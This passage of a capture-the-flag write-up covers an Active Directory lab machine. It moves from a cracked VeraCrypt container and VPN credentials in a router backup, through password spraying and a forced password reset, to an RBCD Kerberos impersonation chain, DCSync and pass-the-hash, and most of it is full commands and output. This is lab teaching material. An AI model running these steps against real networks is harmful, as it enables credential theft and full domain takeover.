Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/438 (4.79%)
Candidates.#01...: Phantom2023! -> Phantom2023!
```

Cracked in about 30 seconds. The password is `Phantom2023!`.

### Mounting the Container

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo dpkg -i veracrypt-1.26.29-Ubuntu-22.04-amd64.deb
Selecting previously unselected package veracrypt.
(Reading database... 631254 files and directories currently installed.)
Preparing to unpack veracrypt-1.26.29-Ubuntu-22.04-amd64.deb...
Unpacking veracrypt (1.26.29-1~ubuntu22.04-1)...
dpkg: dependency problems prevent configuration of veracrypt:
 veracrypt depends on libwxgtk3.0-gtk3-0v5; however:
  Package libwxgtk3.0-gtk3-0v5 is not installed.
 veracrypt depends on libayatana-appindicator3-1; however:
  Package libayatana-appindicator3-1:amd64 is not configured yet.
 veracrypt depends on libfuse2; however:
  Package libfuse2 is not installed.
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt install -f
Correcting dependencies... Done
Setting up veracrypt (1.26.29-1~ubuntu22.04-1) ...
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo mkdir -p /mnt/veracrypt
sudo veracrypt -t -m ro IT_BACKUP_201123.hc /mnt/veracrypt
```

We were prompted for the password (`Phantom2023!`) and PIM (left blank / Enter). The container mounted successfully.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls -la /mnt/veracrypt/
total 8052
drwx------ 4 root root 1024 Jul 6 2024 '$RECYCLE.BIN'
drwx------ 2 root root 1024 Jul 6 2024 'System Volume Information'
-rwx------ 1 root root 47391 Jul 6 2024 azure_vms_0805.json
-rwx------ 1 root root 47391 Jul 6 2024 azure_vms_1023.json
-rwx------ 1 root root 47391 Jul 6 2024 azure_vms_1104.json
-rwx------ 1 root root 47391 Jul 6 2024 azure_vms_1123.json
-rwx------ 1 root root 1012407 Jul 6 2024 splunk_logs_1003
-rwx------ 1 root root 1012407 Jul 6 2024 splunk_logs_1102
-rwx------ 1 root root 1012407 Jul 6 2024 splunk_logs1203
-rwx------ 1 root root 19348 Jul 6 2024 ticketing_system_backup.zip
-rwx------ 1 root root 8191211 Jul 6 2024 vyos_backup.tar.gz
```

Several JSON files, some Splunk log exports, a ticketing system backup, and `vyos_backup.tar.gz`. VyOS is a Linux-based network operating system used for routers/firewalls, and its configuration backups are notorious for containing plaintext VPN credentials.

---

## Extracting the VyOS Backup

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cp /mnt/veracrypt/vyos_backup.tar.gz ~/Desktop/Phantom/Extra
cd ~/Desktop/Phantom/Extra
mkdir vyos_backup
tar -xvzf vyos_backup.tar.gz -C vyos_backup
x vyos_backup/
x vyos_backup/bin -> usr/bin
x vyos_backup/config/
x vyos_backup/config/config.boot
x vyos_backup/config/auth/
x vyos_backup/etc/
x vyos_backup/etc/hostname
x vyos_backup/etc/resolv.conf
x vyos_backup/etc/ssh/
x vyos_backup/root/
x vyos_backup/root/.bash_history
...
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ find vyos_backup -name "config.boot"
vyos_backup/config/config.boot
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat vyos_backup/config/config.boot
```

Relevant portion of the config:

```
vpn {
    sstp {
        authentication {
            local-users {
                username lstanley {
                    password "gB6XTcqVP5MlP7Rc"
                }
            }
            mode "local"
        }
        client-ip-pool SSTP-POOL {
            range "10.0.0.2-10.0.0.100"
        }
        default-pool "SSTP-POOL"
        gateway-address "10.0.0.1"
        ssl {
            ca-certificate "CA"
            certificate "Server"
        }
    }
}
```

This is a VyOS SSTP VPN local-user configuration with a plaintext password stored for `lstanley`: `gB6XTcqVP5MlP7Rc`. VyOS stores SSTP local-user passwords in cleartext in the config file by default, which is exactly the kind of misconfiguration that makes network device backups so valuable during an assessment.

---

## Credential Reuse - Finding svc_sspr

The recovered password doesn't have to belong only to `lstanley` on the Windows domain - it's worth spraying against every user we've enumerated, since password reuse across systems is extremely common.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc smb phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
SMB         10.129.234.63   445    DC               [-] phantom.vl\administrator:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\lstanley:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ibryant:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE
```

Interesting - the password didn't work for `lstanley` (maybe it had already been rotated on the AD side), but it *did* work for `svc_sspr`, a service account we saw earlier in the RID brute-force output. `sspr` typically stands for **Self-Service Password Reset** - a service account like this often carries elevated rights over other user objects specifically so it can reset their passwords, which becomes very relevant later.

### Checking WinRM

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc winrm phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'
WINRM       10.129.234.63   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl) 
WINRM       10.129.234.63   5985   DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc (Pwn3d!)
```

The `(Pwn3d!)` tag from NetExec means this account has an active, usable WinRM session - i.e., it's a local administrator or otherwise permitted to remote in, giving us full command execution on the Domain Controller.

---

## Initial Foothold - Evil-WinRM

```
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.4.1

[*] Connecting to 'phantom.vl:5985' as 'svc_sspr'
evil-winrm-py PS C:\Users\svc_sspr\Documents>
```

We're in, as `svc_sspr`, directly on the Domain Controller.

### Grabbing the User Flag

```
evil-winrm-py PS C:\Users\svc_sspr\Documents> cd C:\Users\svc_sspr\Desktop
cat user.txt
3faf5a3e************************
```

### Checking Privileges

```
*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

---

## Privilege Escalation: Service Account to Domain Admin

Now for the theory and command chain that takes us from `svc_sspr` all the way to `Administrator`.

### Phase 1: What We Have Going In

| What We Have | Details |
|---|---|
| **User** | `svc_sspr` |
| **Password** | `gB6XTcqVP5MlP7Rc` |
| **Access** | WinRM (port 5985) shell via Evil-WinRM |
| **Position** | Shell on the Domain Controller itself |

We're already sitting on the Domain Controller, but only as a low-privileged service account. The goal is to escalate to full Domain Admin.

### Phase 2: Filesystem Enumeration

Before doing anything destructive, we looked at what was accessible on disk.

```powershell
ls C:\
```

```
    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          7/6/2024   9:25 AM                Departments Share
d-----         4/15/2025   6:21 AM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         8/14/2025   4:55 AM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----         7/11/2024   8:03 AM                Public
d-r---          7/6/2024  11:40 AM                Users
d-----         8/14/2025  12:50 AM                Windows
```

`Departments Share` and `Public` are the shares we already had access to remotely. `inetpub` is the IIS web root directory, worth checking for web app configs, but a look inside (`inetpub\DeviceHealthAttestation\bin`) only turned up a single `.dll` belonging to a Windows security update - a dead end. `C:\Users\Administrator` and `C:\Users\Public` were both access-denied for `svc_sspr`.

### Phase 3: BloodHound Enumeration

 BloodHound maps the relationships between users, groups, computers, GPOs, and ACLs in an AD environment as a graph, then uses graph theory to compute attack paths - like the shortest path from a compromised principal to Domain Admin (Tier Zero).

We collected data two ways: via NetExec's built-in BloodHound module (which drives SharpHound-style collection remotely over LDAP), and via RustHound-CE (a fast, standalone Rust implementation of the same collector).

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc ldap dc.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --bloodhound -c All --dns-server 10.129.234.63
LDAP        10.129.234.63   389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
LDAP        10.129.234.63   389    DC               Resolved collection methods: trusts, dcom, container, group, psremote, objectprops, acl, session, localadmin, rdp
LDAP        10.129.234.63   389    DC               Done in 0M 17S
LDAP        10.129.234.63   389    DC               Compressing output into /home/oxdf/.nxc/logs/DC_10.129.234.63_2025-08-15_113542_bloodhound.zip
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ rusthound-ce --domain phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --zip
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 30 users parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 69 groups parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 5 ous parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 3 domains parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] 73 containers parsed!
[2025-08-15T11:37:29Z INFO  rusthound_ce::json::maker::common] .//20250815113729_phantom-vl_rusthound-ce.zip created!
```



Both collections were ingested into the BloodHound GUI.

**What we found:**

- `svc_sspr` holds **ForceChangePassword** rights over three users: `wsilva`, `kjohnson`, and `mroberts`.
- The "Shortest Path to Tier Zero" query shows `wsilva` sitting on a path to Domain Admin via **Resource-Based Constrained Delegation (RBCD)**.



**Why this matters:** `svc_sspr` can reset `wsilva`'s password without ever knowing the current one, and `wsilva` has permissions on the DC's computer object that can be abused to impersonate `Administrator`.

### Phase 4: Abusing ForceChangePassword

 `ForceChangePassword` is an Active Directory ACE (Access Control Entry) that lets the holder reset a target user's password without needing their existing credentials. Unlike a normal password change, this doesn't require proof of knowledge of the old password - it's the AD equivalent of an administrative password reset. NetExec's `change-password` module implements this over SMB/RPC using the `NetUserSetInfo` API.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc smb dc.phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc -M change-password -o USER=wsilva NEWPASS=0xdf0xdf
SMB         10.129.234.63   445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
CHANGE-P... 10.129.234.63   445    DC               [+] Successfully changed password for wsilva
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc smb dc.phantom.vl -u wsilva -p 0xdf0xdf
SMB         10.129.234.63   445    DC               [+] phantom.vl\wsilva:0xdf0xdf
```

We now fully control `wsilva`.

### Phase 5: Checking the Machine Account Quota (MAQ)

 By default, any Domain User can create up to 10 new computer objects in AD (`ms-DS-MachineAccountQuota`). A classic RBCD attack path uses this quota to spin up an attacker-controlled fake "computer" that we hold the credentials for, and then delegate to it. If the MAQ is set to `0`, that avenue is closed and we must instead abuse an *existing* principal we already control - which is exactly what `wsilva` gives us here.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc ldap dc.phantom.vl -u wsilva -p 0xdf0xdf -M maq
MAQ         10.129.234.63   389    DC               MachineAccountQuota: 0
```

MAQ is `0` - we can't create a new computer account, so we proceed using `wsilva` directly.

### Phase 6: Resource-Based Constrained Delegation (RBCD)

 Resource-Based Constrained Delegation lets a *resource* (a computer object, like the DC itself) specify which other principals are allowed to impersonate arbitrary users when authenticating to it. This is controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the resource's computer object. Whoever has write access to that attribute on `DC$` can add any account they control to the list of "trusted" delegators - after which that account can request a Kerberos service ticket *as any other user* (including `Administrator`) via the S4U2Self/S4U2Proxy Kerberos extensions.

Normally this attack needs a delegating principal with a Service Principal Name (SPN), since that's a requirement of the classic S4U2Proxy flow. `wsilva` is a normal user without an SPN. However, there's a documented technique (credited to James Forshaw's research) that works around this: if we can set the delegating account's NTLM hash to match the session key embedded in one of its own Kerberos TGTs, we can perform a "User-to-User" (U2U) S4U2Proxy request instead, which doesn't require an SPN on the delegate.

**Step 1 - Add `wsilva` as an allowed delegate on `DC$`:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ rbcd.py -delegate-to 'DC$' -delegate-from wsilva -action write phantom/wsilva:0xdf0xdf -dc-ip 10.129.234.63
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] wsilva can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```

**Step 2 - Request a TGT for `wsilva`:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ getTGT.py phantom.vl/wsilva:0xdf0xdf
[*] Saving ticket in wsilva.ccache
```

**Step 3 - Extract the ticket's session key:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ describeTicket.py wsilva.ccache
```

Relevant output:

```
[*] Ticket Session Key            : d777c9fe8cdbfbadca48b671967f54e7
```

This 128-bit value is a valid RC4/NTLM-format key. We now need to make `wsilva`'s actual NTLM hash equal to this exact value.

**Step 4 - Set `wsilva`'s NTLM hash to match the session key:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ changepasswd.py -newhashes :d777c9fe8cdbfbadca48b671967f54e7 phantom/wsilva:0xdf0xdf@dc.phantom.vl
[*] Changing the password of phantom\wsilva
[*] Connecting to DCE/RPC as phantom\wsilva
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

**Step 5 - Perform the S4U2Self + U2U S4U2Proxy request, impersonating Administrator:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass
[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```

We now hold a Kerberos service ticket authenticating us as `Administrator` to the `cifs` service on the DC.

**Step 6 - Verify the ticket:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb dc.phantom.vl --use-kcache
SMB         dc.phantom.vl   445    DC               [+] phantom.vl\Administrator from ccache (Pwn3d!)
```

The `(Pwn3d!)` tag confirms this ticket carries administrative privileges on the DC.

### Phase 7: DCSync

 DCSync abuses the Directory Replication Service (DRS) Remote Protocol, which Domain Controllers use to legitimately replicate data (including password hashes) between each other. Any principal holding the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights can request this replication data directly - effectively asking the DC to hand over any account's password hash as though it were another DC. By default this is limited to Domain Admins, Enterprise Admins, and the built-in Administrator - all of which we now have a valid Kerberos ticket for.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb dc.phantom.vl --use-kcache --ntds --user Administrator
SMB         dc.phantom.vl   445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
```

- **LM Hash:** `aad3b435b51404eeaad3b435b51404ee` (blank, as expected on any modern Windows install)
- **NTLM Hash:** `aa2abd9db4f5984e657f834484512117`

### Phase 8: Pass-the-Hash as Administrator

 NTLM authentication is based entirely on the NTLM hash, never the plaintext password. That means if you have a valid NTLM hash for an account, you can authenticate as that account without ever knowing or needing the actual password - this is Pass-the-Hash. Evil-WinRM supports this directly with the `-H` flag.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i dc.phantom.vl -u administrator -H aa2abd9db4f5984e657f834484512117
[*] Connecting to 'dc.phantom.vl:5985' as 'administrator'
evil-winrm-py PS C:\Users\Administrator\Documents>
```

### Grabbing the Root Flag

```powershell
cat C:\Users\Administrator\Desktop\root.txt
c4c2f175************************
```


---

## Summary of All Credentials Found

| Account | Password / Hash | Source | Privilege |
|---|---|---|---|
| `alucas` | (username only) | Public share email header | N/A |
| `phantom` | `Ph4nt0m@5t4rt!` | PDF default password | Guest |
| `ibryant` | `Ph4nt0m@5t4rt!` | Password spray (default onboarding pw never changed) | Domain User |
| `lstanley` (config) → `svc_sspr` (reused) | `gB6XTcqVP5MlP7Rc` | VyOS `config.boot`, reused across accounts | Service Account (WinRM) |
| `wsilva` | `0xdf0xdf` (set via ForceChangePassword) | ACL abuse | Domain User (RBCD path) |
| `Administrator` | NTLM: `aa2abd9db4f5984e657f834484512117` | DCSync | **Domain Admin** |

---

## Attack Chain Overview

```
Anonymous SMB (Public share)
        │
        ▼
tech_support_email.eml → welcome_template.pdf → default password Ph4nt0m@5t4rt!
        │
        ▼
RID Brute-force (guest/null) → full user list
        │
        ▼
Password Spray → ibryant:Ph4nt0m@5t4rt!  (Domain User)
        │
        ▼
Departments Share → IT/Backup/IT_BACKUP_201123.hc (VeraCrypt)
        │
        ▼
Hashcat mode 13722 + custom rules → Phantom2023!
        │
        ▼
Mount container → vyos_backup.tar.gz → config.boot → gB6XTcqVP5MlP7Rc
        │
        ▼
Credential reuse → svc_sspr:gB6XTcqVP5MlP7Rc (WinRM, Pwn3d!)
        │
        ▼
evil-winrm as svc_sspr → USER FLAG
        │
        ▼
BloodHound → svc_sspr has ForceChangePassword over wsilva
        │
        ▼
Reset wsilva's password → nxc change-password module
        │
        ▼
RBCD chain:
  rbcd.py (write msDS-AllowedToActOnBehalfOfOtherIdentity)
  → getTGT.py (TGT for wsilva)
  → describeTicket.py (extract session key)
  → changepasswd.py (set wsilva's NTLM hash = session key)
  → getST.py -u2u -impersonate Administrator (S4U2Self/S4U2Proxy)
        │
        ▼
Kerberos ticket as Administrator (Pwn3d!)
        │
        ▼
DCSync → Administrator NTLM hash
        │
        ▼
Pass-the-Hash (evil-winrm -H) → ROOT FLAG / Domain Admin
```

---

## Final Flags

**User Flag:** `3faf5a3e************************`

**Root Flag:** `c4c2f175************************`
